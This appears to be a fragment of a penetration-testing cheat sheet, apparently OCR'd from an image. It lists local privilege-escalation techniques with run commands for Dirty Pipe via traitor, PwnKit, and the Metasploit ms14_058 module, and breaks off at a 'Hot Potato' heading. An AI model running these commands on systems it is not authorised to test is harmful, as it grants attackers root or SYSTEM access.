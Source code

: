 Domain: No

Local Admin: Yes

OS: Linux

Type: 0/1 Exploit

Methods:

1\.

./traitor-amd64 \--exploit kernel:CVE-2022-0847

2\.

Whoami;id

<a name="pwnkit"></a>
# PwnKit

Domain: No

Local Admin: Yes

OS: Linux

Type: 0/1 Exploit

Methods:

1\.

./cve-2021-4034

2\.

Whoami;id

<a name="ms14_058"></a>
# ms14_058

Domain: No

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

msf \> use exploit/windows/local/ms14_058_track_popup_menu

msf exploit(ms14_058_track_popup_menu) \> set TARGET \< target-id \>

msf exploit(ms14_058_track_popup_menu) \> exploit

<a name="hot-potato"></a>
# Hot Potato
